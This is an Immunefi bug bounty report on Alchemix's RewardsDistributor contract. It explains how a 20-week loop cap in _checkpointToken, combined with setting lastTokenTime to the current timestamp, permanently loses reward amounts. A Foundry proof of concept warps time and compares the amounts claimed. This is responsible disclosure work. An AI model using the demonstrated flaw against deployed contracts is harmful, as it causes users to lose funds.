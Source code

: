 
# Minter UpdatePeriod after 20 weeks causes RewardsDistributor contract to lose claimable amount

Submitted on Tue May 21 2024 04:20:50 GMT-0400 (Atlantic Standard Time) by @copperscrewer for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31559

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/RewardsDistributor.sol

Impacts:
- Permanent freezing of unclaimed yield
- Permanent freezing of unclaimed royalties

## Description
## Brief/Intro
The Minter is a contract that calls UpdatedPeriod which then updates rewards to claim in tokensPerWeek in Rewards Distributor

In _checkpointToken
The hard cap of 20 weeks and the invalid updation of lastTokenTime to block.timestamp, allows direct loss of rewards proportional to amount of time elapsed from the 20 weeks mark.

## Vulnerability Details
Minter UpdatePeriod after 20 weeks causes RewardsDistributor contract to lose claimable amount. The Rewards Distributor Contract has a claim function for a token id where it distributes rewards to the holder, however the rewards are only captured till 20 weeks from last updated epoch and set to the current 
block.timestamp despite only updating 20 weeks from lastTokenTime.

This is in contrast to the 255 weeks limit in Voting escrow as the number of weeks are just 20 for the exploit to damage the protocol, and there are no associated complexities in carrying out the attack.

```solidiity
    function _checkpointToken() internal {
    .
    lastTokenTime = block.timestamp; 
    //@audit wrong as it's not calculated till block.timestamp, It should cover only till where it updated 
    .
    for (uint256 i = 0; i < 20; i++) { 
    //@audit limit 20 is fine but the former incorrectly updates lastTokenTime 
to block.timestamp
    .
    tokensPerWeek[thisWeek] += (toDistribute * (nextWeek - t)) / sinceLast;
    .
    }


```
Since the rewards are not entered correctly, the protocol permanently loses the rewards to distribute to the user.

## Impact Details
The impact is that the user will permanently lose rewards, and the exploit can be as easy as 20 weeks of negligence and no added complexity to carry out the attack.

        
## Proof of concept
## Proof of Concept
Copy paste the following code in Minter.t.sol and execute the following command 
`forge test --match-test testtokensPerWeekPOC* --fork-url https://eth-mainnet.alchemyapi.io/v2/[API_KEY] -vvv`

```solidity
    function testtokensPerWeekPOC() external 
    {
        console.log("Block timestamp : ", block.timestamp);
        console.log("minter active period : ", minter.activePeriod() );

        uint256 activePeriodThen = minter.activePeriod();
        hevm.warp(activePeriodThen + 20 weeks); 

        //ROUND1        
        hevm.startPrank(address(voter));

        minter.updatePeriod(); // deposits alcx to Distributor
        hevm.stopPrank();

        //We prank veALCX for POC reasons
        hevm.startPrank(address(veALCX));

        uint256 claimedAmount = distributor.claim(1, false);
        console.log("Claimed amount @ 20 weeks : ", claimedAmount);       

    }

    function testtokensPerWeekPOC18() external 
    {
        console.log("Block timestamp : ", block.timestamp);
        console.log("minter active period : ", minter.activePeriod() );

        uint256 activePeriodThen = minter.activePeriod();
        hevm.warp(activePeriodThen + 18 weeks);

        //ROUND1        
        hevm.startPrank(address(voter));

        minter.updatePeriod(); // deposits alcx to Distributor
        hevm.stopPrank();

        //We prank veALCX for POC reasons
        hevm.startPrank(address(veALCX));

        uint256 claimedAmount = distributor.claim(1, false);
        console.log("Claimed amount @ 18 weeks : ", claimedAmount);       

    }

    function testtokensPerWeekPOC10() external 
    {
        console.log("Block timestamp : ", block.timestamp);
        console.log("minter active period : ", minter.activePeriod() );

        uint256 activePeriodThen = minter.activePeriod();
        hevm.warp(activePeriodThen + 10 weeks); 

        //ROUND1        
        hevm.startPrank(address(voter));

        minter.updatePeriod(); // deposits alcx to Distributor
        hevm.stopPrank();

        //We prank veALCX for POC reasons
        hevm.startPrank(address(veALCX));

        uint256 claimedAmount = distributor.claim(1, false);
        console.log("Claimed amount @ 10 weeks : ", claimedAmount);       

    }

    function testtokensPerWeekPOC22() external 
    {
        console.log("\nBlock timestamp : ", block.timestamp);
        console.log("minter active period : ", minter.activePeriod() );

        uint256 activePeriodThen = minter.activePeriod();
        hevm.warp(activePeriodThen + 22 weeks); 

        //ROUND1        
        hevm.startPrank(address(voter));

        minter.updatePeriod(); // deposits alcx to Distributor
        hevm.stopPrank();

        //We prank veALCX for POC reasons
        hevm.startPrank(address(veALCX));

        uint256 claimedAmount = distributor.claim(1, false);
        console.log("Claimed amount @ 22 weeks : ", claimedAmount);       
        

    }

    function testtokensPerWeekPOC30() external 
    {
        console.log("\nBlock timestamp : ", block.timestamp);
        console.log("minter active period : ", minter.activePeriod() );

        uint256 activePeriodThen = minter.activePeriod();
        hevm.warp(activePeriodThen + 30 weeks); 

        //ROUND1        
        hevm.startPrank(address(voter));

        minter.updatePeriod(); // deposits alcx to Distributor
        hevm.stopPrank();

        //We prank veALCX for POC reasons
        hevm.startPrank(address(veALCX));

        uint256 claimedAmount = distributor.claim(1, false);
        console.log("Claimed amount @ 30 weeks : ", claimedAmount);  

        claimedAmount = distributor.claim(1, false);
        console.log("Claimed again : ", claimedAmount);  
    }
```